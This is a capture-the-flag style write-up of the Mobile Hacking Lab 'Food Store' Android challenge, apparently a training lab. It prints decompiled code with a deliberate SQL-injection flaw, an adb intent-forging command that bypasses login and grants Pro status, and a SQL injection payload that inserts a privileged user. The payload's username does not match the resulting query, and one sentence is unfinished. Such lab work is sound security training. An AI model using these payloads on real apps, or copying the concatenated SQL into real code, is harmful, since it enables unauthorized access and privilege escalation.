



# Mobile Hacking Lab - Food Store
##### https://www.mobilehackinglab.com/course/lab-food-store
##### Description 
This challenge is centered around a fictitious "Food Store" app, highlighting the critical security flaw of SQL Injection (SQLi) within the app's framework.

### Decompile and Static analysis
```bash
SAMobile.sh extract com.mobilehackinglab.foodstore.apk
```
*NOTE: You can use [SAMobile]()*

Analyze the `AndroidManifest.xml` and keywords

#### Package & SDK:
```xml
package="com.mobilehackinglab.challenge"
compileSdkVersion="34"
android:debuggable="true"
android:allowBackup="true"
```
The `debuggable=true` flag we can attach a debugger and inspect memory easily.
The `allowBackup=true` flag we can pull `SharedPreferences` and dump app data.

#### Permissions
```xml
<permission android:name="com.mobilehackinglab.challenge.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION" android:protectionLevel="signature"/>
```
This is Android Studio boilerplate for dynamic receivers. (likely NOT important)

#### The MainActivity
```xml
<activity android:exported="true" android:name="com.mobilehackinglab.foodstore.MainActivity"/>
```


Just launches the app

### App Run




##### Get shell on AVD
```bash
adb shell
```

##### Analyze /data/data
Navigate to `/data/data/com.mobilehackinglab.foodstore`

```bash
vbox86p:/data/data/com.mobilehackinglab.foodstore # ls -a
. .. cache code_cache 
vbox86p:/data/data/com.mobilehackinglab.foodstore # ls cache/                            
vbox86p:/data/data/com.mobilehackinglab.foodstore # ls code_cache/                          
```
We found 

##### Get the current activity
```bash
adb shell "dumpsys activity | grep mResumedActivity"
mResumedActivity: ActivityRecord{ce7e319 u0 com.mobilehackinglab.foodstore/.LoginActivity t16}
```
Clearly this is the login activity. 

### Static Code analysis
#### Login activity
```java
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_login);
        setDbHelper(new DBHelper(this));
        Button loginButton = (Button) findViewById(R.id.login);
        final EditText usernameEditText = (EditText) findViewById(R.id.username);
        final EditText passwordEditText = (EditText) findViewById(R.id.Password);
        Button signup = (Button) findViewById(R.id.signup);
        loginButton.setOnClickListener(new View.OnClickListener() { // from class: com.mobilehackinglab.foodstore.LoginActivity$$ExternalSyntheticLambda0
            @Override // android.view.View.OnClickListener
            public final void onClick(View view) {
                LoginActivity.onCreate$lambda$1(usernameEditText, passwordEditText, this, view);
            }
        });
        signup.setOnClickListener(new View.OnClickListener() { // from class: com.mobilehackinglab.foodstore.LoginActivity$$ExternalSyntheticLambda1
            @Override // android.view.View.OnClickListener
            public final void onClick(View view) {
                LoginActivity.onCreate$lambda$2(this.f$0, view);
            }
        });
    }
```
- Loads the layout (activity_login)
    - Initializes DBHelper
    - Gets references to:
    - Username EditText
    - Password EditText
    - Login button
    - Signup button
#### Login logic 
1. Reads username & password from input fields.
2. Fetches the user from database using `getUserByUsername()`.
3. If:
   - User doesn’t exist **OR**
   - Password doesn’t match
     → Shows **"Invalid Credentials"**
4. If valid:
   - Shows **"Login Successful"**
   - Sets credit:
        - `10000` if Pro user
        - `100` if normal user
   - Opens `MainActivity`
   - Passes data via `Intent`:
     - Username
     - Credit
     - Pro status
     - Address
   - Closes LoginActivity

NOTES: 
- The intent is sent to the `MainActivity` so we can skip the login and make privilege escalation via Intent Manipulation
- Password comparison is done in plain text `(user.getPassword().equals(inputPassword)` no hashing so we can dump the passwords in clear text.

#### Main activity
```java
String username = getIntent().getStringExtra("USERNAME");
        if (username == null) {
            username = "Guest";
        }
        this.userCredit = getIntent().getIntExtra("USER_CREDIT", 0);
        boolean isProUser = getIntent().getBooleanExtra("IS_PRO_USER", false);
        TextView textView = this.nameTextView;
        TextView textView2 = null;
        if (textView == null) {
            Intrinsics.throwUninitializedPropertyAccessException("nameTextView");
            textView = null;
        }
        textView.setText("Guest: " + username);
        TextView textView3 = this.creditsTextView;
        if (textView3 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("creditsTextView");
            textView3 = null;
        }
        textView3.setText("Credits: " + this.userCredit);
        TextView textView4 = this.proUserTextView;
        if (textView4 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("proUserTextView");
        } else {
            textView2 = textView4;
        }
        textView2.setText(isProUser ? "Pro User" : "Regular User");
        String stringExtra = getIntent().getStringExtra("USER_ADDRESS");
        if (stringExtra == null) {
            stringExtra = "Unknown address";
        }
```
As mentioned MainActivity initializes its state (User Credits, Pro Status, and Address) based on Intent Extras received from the caller ()

### Privilege Escalation via Intent Manipulation
```bash
adb shell am start -n com.mobilehackinglab.foodstore/.MainActivity \
    --es USERNAME "m1337" \
    --ei USER_CREDIT 99999 \
    --ez IS_PRO_USER true \
    --es USER_ADDRESS "test"

Starting: Intent { cmp=com.mobilehackinglab.foodstore/.MainActivity (has extras) }
```
So Skipped the login and logged in as a pro user.


Try order button


#### Signup
```java
public static final void onCreate$lambda$0(Signup this$0, View it) throws SQLException {
        Intrinsics.checkNotNullParameter(this$0, "this$0");
        EditText editText = this$0.username;
        EditText editText2 = null;
        if (editText == null) {
            Intrinsics.throwUninitializedPropertyAccessException("username");
            editText = null;
        }
        if (!(StringsKt.trim((CharSequence) editText.getText().toString()).toString().length() == 0)) {
            EditText editText3 = this$0.password;
            if (editText3 == null) {
                Intrinsics.throwUninitializedPropertyAccessException("password");
                editText3 = null;
            }
            if (!(StringsKt.trim((CharSequence) editText3.getText().toString()).toString().length() == 0)) {
                EditText editText4 = this$0.address;
                if (editText4 == null) {
                    Intrinsics.throwUninitializedPropertyAccessException("address");
                    editText4 = null;
                }
                if (!(StringsKt.trim((CharSequence) editText4.getText().toString()).toString().length() == 0)) {
                    DBHelper dbHelper = new DBHelper(this$0);
                    int i = 0;
                    EditText editText5 = this$0.username;
                    if (editText5 == null) {
                        Intrinsics.throwUninitializedPropertyAccessException("username");
                        editText5 = null;
                    }
                    String string = editText5.getText().toString();
                    EditText editText6 = this$0.password;
                    if (editText6 == null) {
                        Intrinsics.throwUninitializedPropertyAccessException("password");
                        editText6 = null;
                    }
                    String string2 = editText6.getText().toString();
                    EditText editText7 = this$0.address;
                    if (editText7 == null) {
                        Intrinsics.throwUninitializedPropertyAccessException("address");
                    } else {
                        editText2 = editText7;
                    }
                    User newUser = new User(i, string, string2, editText2.getText().toString(), false, 1, null);
                    dbHelper.addUser(newUser);
                    Toast.makeText(this$0, "User Registered Successfully", 0).show();
                    return;
                }
            }
        }
        Toast.makeText(this$0, "Please fill in all fields", 0).show();
    }
```
This method runs when the **Sign Up button is clicked**.
- It checks if **username, password, and address** fields are **not empty**.
- If any field is empty → shows **"Please fill in all fields"**.
- If all fields are filled →
  - Creates a new `User` object
  - Saves it to the database using `DBHelper.addUser()`
  - Shows **"User Registered Successfully"** toast message.

### DBHelper
```java
public final class DBHelper extends SQLiteOpenHelper {
    public static final String DATABASE_NAME = "userdatabase.db";
    public static final int DATABASE_VERSION = 1;

    /* JADX WARN: 'super' call moved to the top of the method (can break code semantics) */
    public DBHelper(Context context) {
        super(context, DATABASE_NAME, (SQLiteDatabase.CursorFactory) null, 1);
        Intrinsics.checkNotNullParameter(context, "context");
    }

    @Override // android.database.sqlite.SQLiteOpenHelper
    public void onCreate(SQLiteDatabase db) throws SQLException {
        Intrinsics.checkNotNullParameter(db, "db");
        db.execSQL("CREATE TABLE users (\n    id INTEGER PRIMARY KEY AUTOINCREMENT,\n    username TEXT,\n    password TEXT,\n    address TEXT,\n    isPro INTEGER\n    \n    \n)");
    }

    @Override // android.database.sqlite.SQLiteOpenHelper
    public void onUpgrade(SQLiteDatabase db, int oldVersion, int newVersion) {
        Intrinsics.checkNotNullParameter(db, "db");
    }

    public final void addUser(User user) throws SQLException {
        Intrinsics.checkNotNullParameter(user, "user");
        SQLiteDatabase db = getWritableDatabase();
        byte[] bytes = user.getPassword().getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(bytes, "this as java.lang.String).getBytes(charset)");
        String encodedPassword = Base64.encodeToString(bytes, 0);
        String Username = user.getUsername();
        byte[] bytes2 = user.getAddress().getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(bytes2, "this as java.lang.String).getBytes(charset)");
        String encodedAddress = Base64.encodeToString(bytes2, 0);
        String sql = "INSERT INTO users (username, password, address, isPro) VALUES ('" + Username + "', '" + encodedPassword + "', '" + encodedAddress + "', 0)";
        db.execSQL(sql);
        db.close();
    }

    public final User getUserByUsername(String Username) {
        Intrinsics.checkNotNullParameter(Username, "Username");
        SQLiteDatabase db = getReadableDatabase();
        Cursor cursor = db.query("users", new String[]{"id", "username", "password", "address", "isPro"}, "username = ?", new String[]{Username}, null, null, null);
        User user = null;
        if (cursor.moveToFirst()) {
            String encodedPassword = cursor.getString(cursor.getColumnIndexOrThrow("password"));
            String encodedAddress = cursor.getString(cursor.getColumnIndexOrThrow("address"));
            byte[] bArrDecode = Base64.decode(encodedPassword, 0);
            Intrinsics.checkNotNullExpressionValue(bArrDecode, "decode(...)");
            String decodedPassword = new String(bArrDecode, Charsets.UTF_8);
            byte[] bArrDecode2 = Base64.decode(encodedAddress, 0);
            Intrinsics.checkNotNullExpressionValue(bArrDecode2, "decode(...)");
            String decodedAddress = new String(bArrDecode2, Charsets.UTF_8);
            user = new User(cursor.getInt(cursor.getColumnIndexOrThrow("id")), Username, decodedPassword, decodedAddress, cursor.getInt(cursor.getColumnIndexOrThrow("isPro")) == 1);
        }
        cursor.close();
        return user;
    }
```
`DBHelper` manages the app’s SQLite database.

- **onCreate()** → Creates a `users` table (id, username, password, address, isPro).
- **addUser(User user)** →
  - Encodes password and address using Base64
  - Inserts the user into the database
- **getUserByUsername(String Username)** →
  - Finds user by username
  - Decodes password and address
  - Returns a `User` object

NOTES:
- Password is only **Base64 encoded**, not securely encrypted.
- `addUser()` uses string concatenation → vulnerable to **SQL injection**.

### SQLI
1. Launch the Signup activity
```bash
adb shell "am start -n com.mobilehackinglab.foodstore/.Signup"
Starting: Intent { cmp=com.mobilehackinglab.foodstore/.Signup }
```
2. In the Username field, enter the following payload to close the current values and inject a 1 into the isPro column
```text
m1337pro', 'eA==', 'eQ==', 1); --
```
the sql query will be 
```sql
INSERT INTO users (username, password, address, isPro) VALUES ('m1337', 'eA==', 'eQ==', 1); -- + "', '" + encodedPassword + "', '" + encodedAddress + "', 0)";
```
3. Fill the other fields with anything and click "Sign Up." then you will see the success toast

#### Dump the database 
```bash
adb shell "sqlite3 /data/data/com.mobilehackinglab.foodstore/databases/userdatabase.db '.tables'"                
android_metadata  users 

adb shell "sqlite3 /data/data/com.mobilehackinglab.foodstore/databases/userdatabase.db 'SELECT * FROM users'"
1|test|dGVzdA==
|dGVlZWVlZXN0
|0
2|test|dGVzdA==
|dGVlZWVlZXN0
|0
3|m1337|eA==|eQ==|1
```
So now we added a user to the database with name `m1337` and pro user role.

>Find More on ==> github.com/MedhatHassan 
